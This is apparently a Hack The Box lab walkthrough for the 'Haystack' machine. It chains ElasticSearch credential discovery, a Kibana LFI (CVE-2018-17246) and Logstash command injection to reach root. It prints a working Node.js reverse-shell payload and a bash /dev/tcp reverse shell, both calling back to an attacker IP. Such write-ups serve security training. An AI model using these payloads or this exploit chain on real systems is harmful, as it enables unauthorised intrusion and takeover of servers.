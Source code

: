 ## HTB: Haystack
---
## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

### 🧭 Recon

#### Nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.115
nmap -sC -sV -p 22,80,9200 -oA scans/nmap-scripts 10.10.10.115
```
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9200 (ElasticSearch/HTTP)

#### Port 80 - Website
- Basic HTML page with image: `needle.jpg`
- `strings -n 20 needle.jpg` → revealed base64: `bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==`
- Decoded: `la aguja en el pajar es "clave"`

#### Port 9200 - ElasticSearch
```
curl http://10.10.10.115:9200/_cat/indices?v
```
- Notable indexes: `quotes`, `bank`, `api`, `.kibana`

#### Extracting sensitive strings
```
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'{"query": {"match_all": {}}}' | jq -c '.hits.hits[]' | grep clave
```
- Found base64 encoded user and password:
```
echo dXNlcjogc2VjdXJpdHkg | base64 -d  # user: security
echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d  # pass: spanish.is.key
```

### 🐚 Shell as security
```
ssh security@10.10.10.115
```
- Successfully authenticated.
- Grab `user.txt`

### 📦 Port Forwarding to Kibana
```
ssh -L 5601:localhost:5601 security@10.10.10.115
```
- Access Kibana via: http://localhost:5601

### 🐚 Shell as kibana

#### Kibana CVE-2018-17246
- Create payload at `/dev/shm/0xdf.js`:
```js
(function(){
  var net = require("net"),
      cp = require("child_process"),
      sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(443, "10.10.14.8", function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
  });
  return /a/;
})();
```
- Trigger LFI execution:
```
curl 'http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../dev/shm/0xdf.js'
```
- Catch reverse shell: `nc -lnvp 443`

### 🧪 Privesc: kibana → root

#### Logstash Misconfiguration
- Logstash runs as **root**
- Kibana can read `/etc/logstash/conf.d` configs

##### Relevant config snippets:
- **input.conf**: watches `/opt/kibana/logstash_*` files
- **filter.conf**: parses `Ejecutar comando: <COMMAND>`
- **output.conf**: uses `exec` plugin to run the command

##### Trigger
```
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_rootme
```
- Catch shell: `nc -lnvp 443`

### 🏁 Root access
```
id
cat /root/root.txt
```

---

## ✅ Summary
- Recon revealed ElasticSearch and Kibana
- Found SSH credentials via stego in ElasticSearch
- Used Kibana LFI (CVE-2018-17246) to gain shell as kibana
- Privileged escalation through Logstash input config
- Root compromise complete

---

## 🏷 Tags
`ElasticSearch`, `Kibana`, `CVE-2018-17246`, `Logstash`, `File Monitoring`, `Reverse Shell`, `HTB`, `Privilege Escalation`, `Command Injection`, `Steganography`, `SSH`

